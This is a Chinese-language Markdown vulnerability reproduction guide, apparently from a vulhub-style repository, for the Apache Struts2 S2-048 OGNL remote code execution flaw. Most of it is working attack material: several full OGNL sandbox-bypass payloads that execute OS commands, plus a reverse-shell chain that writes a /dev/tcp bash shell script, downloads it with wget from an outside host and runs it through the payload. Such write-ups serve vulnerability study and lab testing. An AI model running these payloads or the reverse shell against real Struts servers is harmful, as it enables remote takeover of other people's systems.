






# Apache Struts2 S2-048 远程代码执行漏洞

## 漏洞描述

漏洞详情:

- http://struts.apache.org/docs/s2-048.html
- http://bobao.360.cn/learning/detail/4078.html
- [http://xxlegend.com/2017/07/08/S2-048%20%E5%8A%A8%E6%80%81%E5%88%86%E6%9E%90/](http://xxlegend.com/2017/07/08/S2-048 动态分析/)

## 漏洞影响

影响版本: 2.0.0 - 2.3.32

## 环境搭建

Vulhub 执行以下命令启动 s2-048 测试环境：

```
docker-compose build
docker-compose up -d
```

环境是直接下载的 struts-2.3.32 的 showcase，部署在 tomcat-8.5 下。环境启动后，访问 `http://your-ip:8080/showcase/` 即可查看到 struts2 的测试页面。

## 漏洞复现

访问 Integration/Struts 1 Integration：



触发 OGNL 表达式的位置是 `Gangster Name` 这个表单。

输入 `${233*233}` 即可查看执行结果（剩下两个表单随意填写）：



借用 S2-045 的沙盒绕过方法改了一个 POC。将如下 POC 填入表单 `Gengster Name` 中，提交即可直接回显命令执行的结果：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```



当然，也可以直接用 s2-045 的 POC（需要在 Burp 下进行测试）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```



### 反弹 shell

使用 s2-045 的 POC 进行反弹 shell。

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传 shell.sh 文件的 Payload 为（还需要进行 URL 编码）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='wget 192.168.174.128/shell.sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```



执行 shell.sh 文件的命令为：

```
bash shell.sh
```

执行 shell.sh 文件的 Payload 为（还需要进行 URL 编码）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash shell.sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

成功接收反弹 shell：


